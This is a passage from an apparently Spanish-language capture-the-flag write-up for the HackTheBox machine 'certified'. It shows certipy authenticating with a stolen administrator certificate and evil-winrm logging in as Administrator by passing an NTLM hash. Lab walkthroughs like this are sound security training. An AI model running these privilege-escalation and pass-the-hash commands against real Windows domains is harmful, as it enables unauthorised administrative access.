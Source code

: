 ![image](../zimages/Pasted_image_20250324001558.png)

```bash
certipy auth -pfx administrator.pfx -domain certified.htb
```

Y voilà:

![image](../zimages/Pasted_image_20250324001637.png)

Ahora si nos intentamos identificar mediante `evil-winrm` como Administrator con el hash:

```bash
evil-winrm -i 10.10.11.41 -u 'Administrator' -H '0d5b49608bbce1751f708748f67e2d34'
```

Vemos que entramos sin problema:

![image](../zimages/Pasted_image_20250324001841.png)

